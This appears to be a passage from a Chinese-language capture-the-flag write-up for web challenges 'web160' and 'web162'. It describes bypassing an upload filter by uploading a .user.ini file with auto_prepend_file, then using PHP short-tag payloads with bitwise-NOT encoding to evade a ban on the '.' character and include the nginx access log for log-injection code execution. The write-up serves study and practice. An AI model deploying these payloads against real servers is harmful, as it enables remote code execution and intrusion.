 其余和web160无异，利用文件包含进行日志注入即可



#### web162

![image-20250127133207076](../assets/image-20250127133207076.png)

fuzz一下可以发现这题把.也ban掉了

所以我们在上传的.user.ini时我们可以去掉文件后缀

![image-20250127133616972](../assets/image-20250127133616972.png)

```
GIF89a
auto_prepend_file=1
```

接下来考虑怎么构造读flag

可以通过取反绕过.的过滤，进行文件包含

```
<?=$a="Ñ"?>  
<?=$b=~$a?>
<?=$l="l"?>
<?=$o="o"?>
<?=$g="g"?>
<?=include"/var/$l$o$g/nginx/access$b$l$o$g"?>
```
